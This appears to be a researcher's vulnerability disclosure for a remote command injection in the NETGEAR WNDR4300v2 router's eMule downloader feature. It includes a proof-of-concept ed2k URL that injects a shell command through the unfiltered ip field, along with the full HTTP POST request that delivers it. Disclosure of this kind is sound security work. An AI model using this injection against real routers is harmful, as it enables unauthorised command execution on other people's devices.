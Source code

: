 Hi, I'm eack from Codesafe team of Legendsec at Qi'anxin Group .

Recently, I discovered that there is a command injection vulnerability in netgear's WNDR4300v2 router. The firmware version tested was v1.0.0.58. The details of the vulnerability are as follows:


Vulnerability location:
In NETGEAR Downloader (BETA), when using emule download, the ip and port parameters are not filtered, resulting in remote command injection.

First you have to make sure that USB is plugged into the router.

Then you need to turn on wireshark to monitor WLAN traffic.

Finally, you can verify the vulnerability by simply capturing, modifying, and replaying the packet through BurpSuite.

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563843935009.png)


The location of the vulnerability in the code:

Because IP and port parameters have a command injection vulnerability.

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563779263843.png)


Poc:

`ed2k://|server|192.168.195.132\';ping 192.168.1.8;echo'|8000`


Grab this package in BurpSuite and make the following changes:

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563843834060.png)

Can be verified by wireshark packet capture:

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563778026290.png)


HTTP Request:

```
POST /apply.cgi?/GREEN_emule_basic.htm%20timestamp=778486986003 HTTP/1.1
Host: 192.168.1.1
Content-Length: 358
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.1.1/GREEN_emule_basic.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:
auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOiI1OTczIiwiaXNzIjoid3d3Lm5ldGdlYXIuY29tIiwic3ViIjoiTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7IHg2NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQw==.37588a09eba998aae243f26431b404b0c8922f019cba11ea126ab8cdecbd470c
Connection: close

submit_flag=add_download_item&download_type=emule&save_usb_path=&green_download_open_flag=&enable_green_download=on&download_type_1=emule&download_url=ed2k%3A%2F%2F%7Cserver%7C192.168.195.132%5C%27%3Bping+192.168.1.8%3Becho%27%7C8000&Add=%E6%B7%BB%E5%8A%A0&priority_sel=4&priority_sel=4&priority_sel=4&select_ids=&select_ids_queuen=&priority_val=&file_type=2
```
